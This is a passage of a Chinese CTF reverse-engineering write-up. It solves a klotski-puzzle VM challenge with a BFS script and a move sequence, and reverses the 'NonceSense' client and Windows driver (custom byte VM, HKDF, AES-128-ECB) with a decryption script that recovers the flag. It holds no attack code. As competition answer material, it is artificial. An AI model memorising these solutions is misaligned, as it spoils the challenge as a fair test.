0x015E:  JE   offset 30 -> 0x017F ; 跳转去检查是不是高棋子
; ... (检查 17, 18, 19) ...
0x017C:  JMP  offset 226 -> 0x0261 ; 非边缘，去碰撞检测

; (接 0x015E) 检查棋子类型
0x017F:  LDI  R2, 0x0
0x0183:  CMP  R10, R2      ; 如果是棋子 0 (通常是曹操 2x2)
0x0185:  JE   offset -239 -> 0x0099 ; 不能移动到最后一行（因为底部会越界）
; ... (检查棋子 1, 2, 3, 4，通常是五虎将 1x2) ...
0x01A9:  JE   offset -275 -> 0x0099
0x01AC:  JMP  offset 178 -> 0x0261

; === 向左移动 (LEFT) ===
0x01AF:  LDI  R2, 0x1
0x01B3:  SUB  R12, R11, R2 ; 目标位置 = 当前 - 1
; 检查左边界 (0, 4, 8, 12, 16)
0x01B7:  LDI  R2, 0x0
0x01BB:  CMP  R11, R2
0x01BD:  JE   offset -295 -> 0x0099
; ... (检查 4, 8, 12, 16) ...
0x01E4:  JMP  offset 122 -> 0x0261

; === 向右移动 (RIGHT) ===
0x01E7:  ; 检查右边界 (3, 7, 11, 15, 19)
; ... (代码省略，逻辑同上) ...
0x0214:  LDI  R2, 0x0
0x0218:  CMP  R10, R2      ; 棋子 0 (2x2)
0x021A:  JE   offset 12 -> 0x0229  ; 跳过额外检查
0x021D:  LDI  R2, 0x5
0x0221:  CMP  R10, R2      ; 棋子 5 (2x1, 关羽横放)
0x0223:  JE   offset 3 -> 0x0229   ; 跳过额外检查
; 普通 1x1 或 1x2 棋子的额外右边界检查 (不能从第 2 列跨到第 3 列，如果它是 2 格宽的话)
; ...
0x0256:  LDI  R2, 0x1
0x025A:  ADD  R12, R11, R2 ; 目标位置 = 当前 + 1
0x025E:  JMP  offset 0 -> 0x0261

; -------------------------------------------------------------
; 4. 碰撞检测准备 (0x0261)
; -------------------------------------------------------------
0x0261:  LDI  R0, 0x0
0x0265:  MOV  R4, R11      ; R4 = 当前位置 (Old Pos)
0x0268:  LDI  R15, 0x1     ; R15 = 状态机状态 1 (计算旧位置掩码)
0x026C:  JMP  offset 49 -> 0x02A0 ; 跳转到形状掩码计算器

; 回调入口 1: 完成旧位置计算
0x026F:  MOV  R5, R13      ; R5 = 旧位置的掩码 (Old Mask)
0x0272:  MOV  R4, R12      ; R4 = 目标位置 (New Pos)
0x0275:  LDI  R15, 0x2     ; R15 = 状态机状态 2 (计算新位置掩码)
0x0279:  JMP  offset 36 -> 0x02A0

; 回调入口 2: 完成新位置计算 -> 执行碰撞逻辑
0x027C:  MOV  R6, R13      ; R6 = 新位置的掩码 (New Mask)

; -------------------------------------------------------------
; 5. 核心位运算逻辑 (0x027F - 0x0297)
; 验证移动是否合法，并更新位图
; -------------------------------------------------------------
; R14: 全局位图, R5: 旧棋子掩码, R6: 新棋子掩码
0x027F:  XOR  R7, R14, R5  ; R7 = 全局位图 剔除 旧棋子 (Temporarily clear old pos)
0x0283:  NAND R9, R7, R6   ; 检查 R7 和 R6 是否有重叠。
                           ; 如果无重叠 (R7 & R6 == 0)，则 NAND 结果为全 1 (0xFFFF)
                           ; 如果有重叠 (碰撞)，则 NAND 结果某位为 0
0x0287:  NAND R8, R9, R9   ; 对 R9 取反 (NOT)。R8 = R7 & R6。
                           ; 如果 R8 == 0，说明没有碰撞，移动合法。
0x028B:  CMP  R8, R0       ; R0 是 0
0x028D:  JNE  offset -503 -> 0x0099 ; 如果 R8 != 0 (有碰撞)，跳转回主循环(移动失败)

; 移动合法，更新状态
0x0290:  XOR  R14, R7, R6  ; R14 = R7 (空位图) | R6 (新位置)。将新位置写入全局位图。
0x0294:  STM  [R10], R12   ; 更新内存中该棋子的坐标
0x0297:  JMP  offset 0 -> 0x029A

; -------------------------------------------------------------
; 6. 渲染与输出 (0x029A)
; -------------------------------------------------------------
0x029A:  RENDER                 ; 重新绘制棋盘
0x029B:  CALC_MD5_R8_R9 Mem[80:100] ; 计算当前棋盘状态的 MD5/Hash
0x029C:  PRINT                  ; 打印 R8, R9 (作为通关密码或校验码)
0x029D:  JMP  offset -519 -> 0x0099 ; 回到主循环

; -------------------------------------------------------------
; 7. 辅助函数：形状掩码计算器 (0x02A0)
; 根据棋子ID (R10) 和位置 (R4) 计算位掩码 (R13)
; -------------------------------------------------------------
0x02A0:  CMP  R10, R0      ; R10 == 0? (曹操)
0x02A2:  JE   offset 72 -> 0x02ED
0x02A5:  LDI  R2, 0x5
0x02A9:  SUB  R3, R10, R2
0x02AD:  CMP  R3, R0       ; R10 == 5? (关羽)
0x02AF:  JE   offset 73 -> 0x02FB
; ... (检查 1,2,3,4 五虎将) ...
0x02BC:  JE   offset 53 -> 0x02F4 ; 跳转到 1x2 掩码

0x02E6:  LDI  R13, 0x1     ; 其他 (小兵): 掩码 0x1 (1x1)
0x02EA:  JMP  offset 21 -> 0x0302

0x02ED:  LDI  R13, 0x33    ; 曹操: 掩码 0x33 (二进制 0011 0011 -> 2x2 占位)
0x02F1:  JMP  offset 14 -> 0x0302

0x02F4:  LDI  R13, 0x11    ; 竖将: 掩码 0x11 (二进制 0001 0001 -> 1x2 占位)
0x02F8:  JMP  offset 7 -> 0x0302

0x02FB:  LDI  R13, 0x3     ; 横将: 掩码 0x03 (二进制 0000 0011 -> 2x1 占位)
0x02FF:  JMP  offset 0 -> 0x0302

; 移位循环：将基础掩码移动到棋子的实际坐标位置
0x0302:  MOV  R9, R4       ; R9 = 计数器 (当前坐标)
0x0305:  CMP  R9, R0       ; while (R9 > 0)
0x0307:  JE   offset 15 -> 0x0319
0x030A:  LDI  R2, 0x1
0x030E:  SHL  R13, R13, R2 ; 掩码左移 1 位
0x0312:  SUB  R9, R9, R2   ; 计数器 - 1
0x0316:  JMP  offset -20 -> 0x0305

0x0319:  LDI  R2, 0x1
0x031D:  SUB  R3, R15, R2
0x0321:  CMP  R3, R0       ; 检查状态 R15
0x0323:  JE   offset -183 -> 0x026F ; 如果是状态 1，跳回 "回调入口 1"
0x0326:  LDI  R2, 0x2
0x032A:  SUB  R3, R15, R2
0x032E:  CMP  R3, R0
0x0330:  JE   offset -183 -> 0x027C ; 如果是状态 2，跳回 "回调入口 2"

0x0333:  HALT
```

事实上，该 `game.bin` 实现了一个华容道模拟器，循环请求用户输入 `nx` 格式的字符串，表示将编号为 `n` 的棋子向 `x` 方向移动（`x` 为 `w`、`a`、`s` 或 `d`）。模拟器进行边界检测以判定移动合理性，若可以移动，则计算移动后棋盘对应的哈希值（可能是 MD5 值）并输出。

根据题目描述：

> flag内容为最短路径下的终点对应的节点值\
> 操作路径顺序按照棋子编号从小到大 操作顺序wasd

我们推测，我们需要使用 BFS 寻找一条华容道路径，它遵循这样的优先级顺序：

1. 按照编号升序的顺序移动棋子，即，移动 `0` 优先于移动 `1`；
2. 对一个棋子按照 `w,a,s,d` 的顺序移动，即，上移优先于左移。

从而编写 BFS 脚本即可得到移动序列。下面给出一个可行的脚本：

```python
from collections import deque

# 5 rows x 4 cols
ROWS, COLS = 5, 4

# Initial board (index -> piece)
# Use '.' for empty
initial = [
    "P1","P0","P0","P2",
    "P1","P0","P0","P2",
    "P5","P5","P4","P3",
    "P6","P8","P4","P3",
    "P7",".",".","P9"
]

# Goal: Cao Cao (P0) at positions 13,14,17,18 (bottom center)
goal_positions = {13,14,17,18}

# Movement order (priority)
DIRS = [
    ('W', -1,  0),
    ('A',  0, -1),
    ('S',  1,  0),
    ('D',  0,  1),
]

# Extract pieces
def get_pieces(board):
    pieces = {}
    for idx, v in enumerate(board):
        if v != ".":
            pieces.setdefault(v, []).append(idx)
    return pieces

def idx_to_rc(i):
    return divmod(i, COLS)

def rc_to_idx(r,c):
    return r*COLS + c

def can_move(board, piece_cells, dr, dc):
    # Check if all moved cells are in bounds and not blocked
    for idx in piece_cells:
        r,c = idx_to_rc(idx)
        nr,nc = r+dr, c+dc
        if not (0 <= nr < ROWS and 0 <= nc < COLS):
            return False
        nidx = rc_to_idx(nr,nc)
        if board[nidx] != "." and nidx not in piece_cells:
            return False
    return True

def move_piece(board, piece_cells, dr, dc, name):
    new_board = board[:]
    # Clear old
    for idx in piece_cells:
        new_board[idx] = "."
    # Set new
    for idx in piece_cells:
        r,c = idx_to_rc(idx)
        nidx = rc_to_idx(r+dr, c+dc)
        new_board[nidx] = name
    return new_board

def board_key(board):
    return tuple(board)

def is_goal(board):
    # Cao Cao occupies 4 cells
    cells = [i for i,v in enumerate(board) if v=="P0"]
    return set(cells) == goal_positions

def bfs(start):
    q = deque()
    q.append((start, []))
    seen = set()
    seen.add(board_key(start))

    while q:
        board, path = q.popleft()
        if is_goal(board):
            return path, board

        pieces = get_pieces(board)

        # Priority 1: piece index ascending (P0, P1, ...)
        # Sort by numeric part
        def piece_key(p):
            return int(p[1:])  # "P0" -> 0
        for piece in sorted(pieces.keys(), key=piece_key):
            cells = pieces[piece]

            # Priority 2: W A S D
            for dch, dr, dc in DIRS:
                if can_move(board, cells, dr, dc):
                    nb = move_piece(board, cells, dr, dc, piece)
                    k = board_key(nb)
                    if k not in seen:
                        seen.add(k)
                        q.append((nb, path + [dch + piece[1:]]))
    return None, None

def print_board(board):
    for r in range(ROWS):
        row = board[r*COLS:(r+1)*COLS]
        print(" ".join(f"{x:>2}" for x in row))

if __name__ == "__main__":
    path, final_board = bfs(initial)
    if path is None:
        print("无解")
    else:
        for step in path:
            print(step)
        print(f"最短步数: {len(path)}")
        print("最终布局:")
        print_board(final_board)
```

下面给出运算结果：

```txt
4s 5d 1s 7d 6s 1s 0a 2a 3w 3w 9w 9w 4d 7d 6d 1s 5a 2s 2s 3a 9w 4w 7d 2s 3s 9w 4w 7w 9a 4w 7w 2d 3s 3s 7a 7w 5d 1w 5d 6a 8s 1d 6w 8a 1s 5a 4s 5a 3w 9d 7w 3w 1d 6d 6s 5s 0s 7a 7a 9a 4w 2w 9a 3w 1w 6d 6d 8d 8d 5s 0s 7s 9a 3a 1w 1w 0d 7s 7s 9s 9s 3a 1a 4a 2w 2w 0d 7d 7w 5w 8a 6a 8a 6a 0s 7d 7d 9d 9d 5w 6w 6a 0a
```

与程序交互后，将移动序列中的 编号-方向 组合逐个输入，即可得到最终的值。为便捷，可以使用 PowerShell：

```powershell
$moves = "4s 5d 1s 7d 6s 1s 0a 2a 3w 3w 9w 9w 4d 7d 6d 1s 5a 2s 2s 3a 9w 4w 7d 2s 3s 9w 4w 7w 9a 4w 7w 2d 3s 3s 7a 7w 5d 1w 5d 6a 8s 1d 6w 8a 1s 5a 4s 5a 3w 9d 7w 3w 1d 6d 6s 5s 0s 7a 7a 9a 4w 2w 9a 3w 1w 6d 6d 8d 8d 5s 0s 7s 9a 3a 1w 1w 0d 7s 7s 9s 9s 3a 1a 4a 2w 2w 0d 7d 7w 5w 8a 6a 8a 6a 0s 7d 7d 9d 9d 5w 6w 6a 0a"
$moves -split " " | .\huarongdao.exe .\game.bin
```



### NonceSense

`Client.exe` 读取用户的输入，并对输入的每一个字符进行了变换，随后调用 `CreateFileW` 打开驱动设备 `\\.\GATE_Driver`，发送 `IOCTL` `0x222000`，从驱动获取 16 个字节的数据 `OutBuffer`（称为 `Nonce`），最终将变换后的用户输入和 `Nonce` 打包，并发送 `IOCTL` `0x222004` 给驱动，将返回的数据写入 `Drv_blob.bin`。由此我们推测，附件给出的 `Drv_blob.bin` 是用户输入为正确 Flag 时的最终产物。

处理用户输入的变换逻辑使用了一个虚拟机，对用户的输入逐字节地依照 `unk_1400043F3` 的内容变换。仿照上题，我们不加说明地给出该虚拟机的构造：

```c
00000000 struct VM_Instruction // sizeof=0x3
00000000 {                                       // XREF: .rdata:vm_firmware/r
00000000                                         // .rdata:00000001400043F6/r ...
00000000     enum OpCode_PlusOne opc;
00000001     unsigned __int8 Dst_Reg_Idx;
00000002     unsigned __int8 Src_Operand;
00000003 };

00000000 struct registry // sizeof=0x4
00000000 {                                       // XREF: main/r
00000000     unsigned __int8 r0;                 // XREF: main+1E9/w main+228/r ...
00000001     unsigned __int8 r1;                 // XREF: main+1F3/w
00000002     unsigned __int8 r2;                 // XREF: main+1F8/w
00000003     unsigned __int8 r3;
00000004 };
```

在 `unk_1400043F3` 固件中定义的 Opcode 是程序运行时实际处理的 Opcode 加 1 的结果。下表的 Opcode 均为 1 字节，取固件中定义的 Opcode。

| Opcode | 助记符和声明 | 逻辑描述 |
| --- | --- | --- |
| `0x1` | `MOV dst, src` | `Reg[dst] = Reg[src]` |
| `0x2` | `XOR_reg dst, src` | `Reg[dst] ^= Reg[src]` |
| `0x3` | `XOR dst, imm` | `Reg[dst] ^= imm` |
| `0x4` | `ADD dst, imm` | `Reg[dst] += imm` |
| `0x5` | `MUL dst, imm` | `Reg[dst] *= imm` |
| `0x6` | `AND dst, imm` | `Reg[dst] &= imm` |
| `0x7` | `ROL dst, src` | `Reg[dst] = ROL(Reg[dst], Reg[src] & 7)` |

在 `main` 函数中，对用户输入的加密逻辑如下：

```c
for ( i = 0; i < input_size; ++i )
{
    Src_Operand = 1;
    reg.r0 = Buffer[i];  // reg.rx 代指 Reg[x]
    vm_pc = &vm_firmware;  // vm_firmware 即 unk_1400043F3
    n6 = 0;
    reg.r1 = i;
    *(_WORD *)&reg.r2 = 0;
    n2 = 2;
    do
    {
        switch ( n6 )
        {
            /* 按照 Opcode 执行逻辑 */
        }
        v12 = *(_WORD *)&vm_pc->opc;
        Src_Operand = vm_pc->Src_Operand;
        ++vm_pc;
        n2 = HIBYTE(v12);
        n6 = (unsigned __int8)v12 - 1;
    }
    while ( n6 <= 6 );
    Buffer[i] = reg.r0;
}
```

从而 `Reg[0]` 为 `Buffer[i]` 待处理的字符，`Reg[1]` 为下标 `i`，`Reg[2]` 和 `Reg[3]` 是临时寄存器。

考虑进入固件前，代码中的隐藏操作 `n6 = 0; n2 = 2; v9 = 1;` 使得 `MOV Reg[2], Reg[1]` 即 `Reg[2] = i`。随后进入由固件定义的虚拟机逻辑。

1. `MUL Reg[2], 0x0D` 从而 `Reg[2] = i * 13`；
2. `ADD Reg[2], 0xC3` 从而 `Reg[2] = (i * 13) + 195`；
3. `XOR_reg Reg[0], Reg[2]` 从而 `Char = Char ^ ((i * 13) + 195)`；
4. `MOV Reg[3], 1` 从而 `Reg[3] = Reg[1] = 1`；
5. `MUL Reg[3], 3` 从而 `Reg[3] = i * 3`；
6. `ADD Reg[3], 1` 从而 `Reg[3] = (i * 3) + 1`；
7. `AND Reg[3], 7` 从而 `Reg[3] = ((i * 3) + 1) & 7`（取低 3 位）；
8. `ROL Reg[0], Reg[3]` 从而 `Char = ROL(Char, ((i * 3) + 1) & 7)`（循环左移）；
9. `XOR Reg[0], 0x5A` 从而 `Char = Char ^ 0x5A`。

总结：对于第 `i` 个字符 `C`，虚拟机进行了：

$$
\text{Result} = \operatorname{ROL}(C \oplus ((i \times 13) + 195), ((i \times 3 + 1) \& 7)) \oplus 0x5A
$$

使用 IDA Pro 进入 `GateDriver.sys` 的 `DriverEntry`，并寻找主函数 `sub_14000154C`。根据

```c
if ( v3 >= 0 )
{
    DriverObject->MajorFunction[IRP_MJ_CREATE] = (PDRIVER_DISPATCH)&sub_140001000;
    DriverObject->MajorFunction[IRP_MJ_CLOSE] = (PDRIVER_DISPATCH)&sub_140001000;
    DriverObject->MajorFunction[IRP_MJ_DEVICE_CONTROL] = (PDRIVER_DISPATCH)&sub_1400010C0;
    DriverObject->DriverUnload = (PDRIVER_UNLOAD)sub_140001640;
    return 0;
}
```

寻找到 `IRP_MJ_DEVICE_CONTROL` 的处理函数 `sub_1400010C0()`。注意到大致逻辑后，分别查看驱动对两个 `LowPart` 的处理方法。当程序发送 `IOCTL 0x222000` 时：

```c
if ( LowPart != 0x222000 )
{
    // ... 检测并跳转到 0x222004 的逻辑
}
// 如果是 0x222000
Length_2 = 16;
if ( Length >= 0x10 )
{
    // 把 FsContext 里的前 16 字节 Nonce 复制给输出 buffer
    *(_OWORD *)&MasterIrp->Type = *(_OWORD *)FsContext; 
    FsContext[16] = 1; 
    goto LABEL_9;
}
```

驱动返回 16 字节的内容，这即为前文提到的 `Nonce`。当程序发送 `IOCTL 0x222004` 时：

```c
n32 = 0; v17 = 0;
do {
    v18 = 1 - 3 * n32++;
    *((_BYTE *)v39 + v17) = __ROR1__(byte_140003250[v17] ^ 0x5C, v18 & 7) ^ 0xA7;
    ++v17;
} while ( n32 < 32 );
```

驱动确保已向程序给出 Nonce 后（类似于检测验证码是否已发送），使用一个硬编码的表 `byte_140003250` 计算出一个 32 字节的数据 `v39`。下面的脚本模拟了该计算过程。

```python
def ror(val, r_bits, max_bits=8):
    return ((val & (2**max_bits - 1)) >> r_bits % max_bits) | \
           (val << (max_bits - (r_bits % max_bits)) & (2**max_bits - 1))

table = [
    0xBF, 0xE7, 0x43, 0xBA, 0xE2, 0xBF, 0xAB, 0x52, 0x91, 0xE6,
    0x4B, 0xA4, 0x20, 0x0E, 0x2E, 0xD3, 0x91, 0x79, 0xFB, 0xA4,
    0xC1, 0x0A, 0x20, 0x00, 0xF9, 0xEF, 0x02, 0x9F, 0xEE, 0x02,
    0x96, 0x45
]

v39 = []
for i in range(32):
    v18 = (1 - 3 * i) & 0xFF
    val = ror(table[i] ^ 0x5C, v18 & 7) ^ 0xA7
    v39.append(val)

print(f"{bytes(v39).hex()}")
```

计算得出的结果为

```txt
56494441525f4847414d455f4433435f4133535f4b325f6275696c6432303236
```

注意到其转为 ASCII 码后的结果是

```txt
VIDAR_HGAME_D3C_A3S_K2_build2026
```

随后继续初始化加密上下文。驱动调用 `sub_1400019B8(FsContext, v39, 32, v36);` 函数进行 HKDF (HMAC-based Extract-and-Expand Key Derivation Function)，这含有 2 个阶段：

1. Extract 阶段。`PRK = HMAC-Hash(Salt, IKM)`，其中 `Salt` 是 32 字节全 0 的数据，`IKM` 是传入的 `FsContext`（这即之前驱动生成的 `Nonce`）。得到的 `p_Source1` 作下一阶段的 PRK。
2. Expand 阶段。`OKM = HMAC-Hash(PRK, info + 0x01)`，其中 `PRK` 即上一轮计算出的 `p_Source1`，`info` 为在末尾追加了字节 `0x01` 的 `v39`。得到的 `Source1` 为最终派生的密钥。

其中 `HMAC-Hash` 指 HMAC-SHA256 算法。完成后，计算结果被拷贝，使得 `v36` 指向计算结果的前 16 个字节。

随后驱动继续以 `sub_140001908(v36, v40, n16_3);` 对 `v36` 进行 AES-128 算法的密钥扩展，将 16 字节的密钥扩展为 176 字节的轮密钥。最终调用 `sub_1400016B0` 函数，进行 ECB 模式的 AES-128 加密。

```c
for ( NumberOfBytes_4 = 0; NumberOfBytes_4 < NumberOfBytes_2; NumberOfBytes_4 += 16 )
    sub_1400016B0(v40, &P_1[NumberOfBytes_4], &P_2[NumberOfBytes_4]);
```

驱动将 16 个字节的 Nonce 和由上述加密方法得到的最终密文拼接并返回给程序，程序接收并保存为 `Drv_blob.bin`。

我们遵循这样的方法解密：从 `Drv_blob.bin` 中提取 Nonce 和 Ciphertext 后，参照驱动的 HKDF 方法得到 AES Key，并使用该 Key 和虚拟机的逆逻辑还原 Ciphertext。下面给出最终解密脚本。

```python
import hmac
import hashlib
from Crypto.Cipher import AES

nonce = bytes.fromhex("8a8fa4ab7254811ef7a28a47394b66bf")
meta_key_str = b"VIDAR_HGAME_D3C_A3S_K2_build2026"

ciphertext = bytes.fromhex(
    "24c7cf462bf5f7e04e07abdf170e1ea6"
    "ec8df713af3a574b381d396a9ea1eb02"
    "60b8aa8a646d9d26d2454c79459510dc"
    "532317b2f1488960220a9104ee31772d"
)

h1 = hmac.new(b'\x00' * 32, nonce, hashlib.sha256).digest()

final_aes_key = hmac.new(h1, meta_key_str + b'\x01', hashlib.sha256).digest()[:16]
print(f"[*] Derived AES Key: {final_aes_key.hex()}")

cipher = AES.new(final_aes_key, AES.MODE_ECB)
transformed_flag_with_pad = cipher.decrypt(ciphertext)

pad_len = transformed_flag_with_pad[-1]
transformed_flag = transformed_flag_with_pad[:-pad_len]

def ror(val, r_bits, max_bits=8):
    return ((val & (2**max_bits - 1)) >> r_bits % max_bits) | \
           (val << (max_bits - (r_bits % max_bits)) & (2**max_bits - 1))

def solve_vm_layer(data):
    decoded = []
    for i, byte in enumerate(data):
        val = byte ^ 0x5A
        shift = ((i * 3) + 1) & 7
        val = ror(val, shift)
        key = ((i * 13) + 195) & 0xFF
        val = val ^ key
        decoded.append(val)
    return bytes(decoded)

flag = solve_vm_layer(transformed_flag)
print(f"[+] Flag: {flag.decode()}")
```
